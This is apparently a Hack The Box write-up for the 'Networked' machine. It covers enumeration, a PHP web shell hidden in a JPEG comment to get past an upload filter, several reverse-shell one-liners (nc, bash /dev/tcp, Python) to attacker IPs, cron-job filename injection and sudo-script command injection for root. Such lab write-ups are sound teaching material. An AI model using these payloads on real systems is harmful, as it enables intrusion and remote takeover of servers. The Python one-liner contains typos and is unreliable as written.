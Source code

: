 # Networked HTB, IP 10.10.10.146

# Initial Enumeration

**1. nmap -sC -sV 10.10.10.146**

![n1](https://user-images.githubusercontent.com/15195048/93912551-c0f9cd80-fcb8-11ea-8190-ff6fb2d2f77f.png)

**2. Dirb/ Gobuster**

dirb http://10.10.10.146

dirb http://10.10.10.146 -X .php

![n2](https://user-images.githubusercontent.com/15195048/93912555-c1926400-fcb8-11ea-8d78-6e845abdae2d.png)

----------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## 1.Enumerating port 80

![n3](https://user-images.githubusercontent.com/15195048/93912557-c22afa80-fcb8-11ea-8ffd-57450756147c.png)


View page source: **Control+U**

![n4](https://user-images.githubusercontent.com/15195048/93912560-c22afa80-fcb8-11ea-9948-39fb8654bd19.png)

**Interesting Files**

http://10.10.10.146/upload.php

![n5](https://user-images.githubusercontent.com/15195048/93912562-c2c39100-fcb8-11ea-9a85-4ecce8d2b0b1.png)


Trying to upload a shell we see the error “Invalid image file”

http:10.10.10.146/backup


![n6](https://user-images.githubusercontent.com/15195048/93912563-c2c39100-fcb8-11ea-8c29-6fd246172a25.png)

Download the file **backup.tar**

![n7](https://user-images.githubusercontent.com/15195048/93912564-c2c39100-fcb8-11ea-89b3-c5362ba8366f.png)


![n8](https://user-images.githubusercontent.com/15195048/93912565-c35c2780-fcb8-11ea-9c6a-8655f622491b.png)


![n9](https://user-images.githubusercontent.com/15195048/93912566-c35c2780-fcb8-11ea-89ed-51178e94ab9e.png)


**Modifying bb.jpeg**

**exiftool -Comment='<?php echo** "<pre>"; system($_GET['cmd']); ?>'** bb.jpeg

**mv bb.jpeg bb.php.jpeg**

We successfully uploaded bb.php.jpeg photo.
view-source:http://10.10.10.146/uploads/10_10_14_21.php.jpeg?cmd=nc -e /bin/bash 10.10.14.21 8888

![n10](https://user-images.githubusercontent.com/15195048/93912571-c3f4be00-fcb8-11ea-906a-c4cb4c000e9e.png)


Try..

**A)** bash -i >& /dev/tcp/10.10.14.21/1234 0>&1

**B)** nc -e /bin/sh 10.10.14.21 1234  DONE

**C)** python -c 'import soc ket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’


  After enumerating home directory of user guly we see that a php script is running as a cronjob which could be used to gain shell as that user. Lets look at code check_attack.php.  


![n11](https://user-images.githubusercontent.com/15195048/93912575-c3f4be00-fcb8-11ea-8d2f-c132c2b482c8.png)

![n12](https://user-images.githubusercontent.com/15195048/93912576-c48d5480-fcb8-11ea-8114-8676404dfb06.png)


**Notes:**
We see that it scans for files, If the files were found as malicious, then a cron job will check and report to guly with mail($to, $msg, $msg, $headers, "-F$value"); every three minutes, for files in /var/www/html/uploads that doesn’t begin with an IP address. We can touch a file with a file name that begins with ; to separate sendmail from the command that we want to execute.
   
**touch ';nc 10.10.12.161 4321 -c bash'**
   
 ![n13](https://user-images.githubusercontent.com/15195048/93912579-c525eb00-fcb8-11ea-8c04-57d78a66b2d9.png)
 
   
 ![n14](https://user-images.githubusercontent.com/15195048/93912580-c525eb00-fcb8-11ea-8d78-b6a230c2b66c.png)
 
   user.txt

-------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
   sudo -l
   (root) NOPASSWD: /usr/local/sbin/changename.sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

   As guly I checked sudo -l and found that guly can run /usr/local/sbin/changename.sh as root without a password:
   
   
   ![n15](https://user-images.githubusercontent.com/15195048/93912582-c5be8180-fcb8-11ea-985d-e5273ce8f22d.png)

  This script simply creates a network script for an interface called guly then activates that interface. It asks the user for these options: NAME, PROXY_METHOD, BROWSER_ONLY, BOOTPROTO. We’re interested in the options because according to this page(https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) we can inject commands in the interface name. Let’s try to execute bash:
  
   interface NAME:
   gu bash 
  
   or   
![n16](https://user-images.githubusercontent.com/15195048/93912583-c5be8180-fcb8-11ea-9273-c568c4345679.png)

root.txt
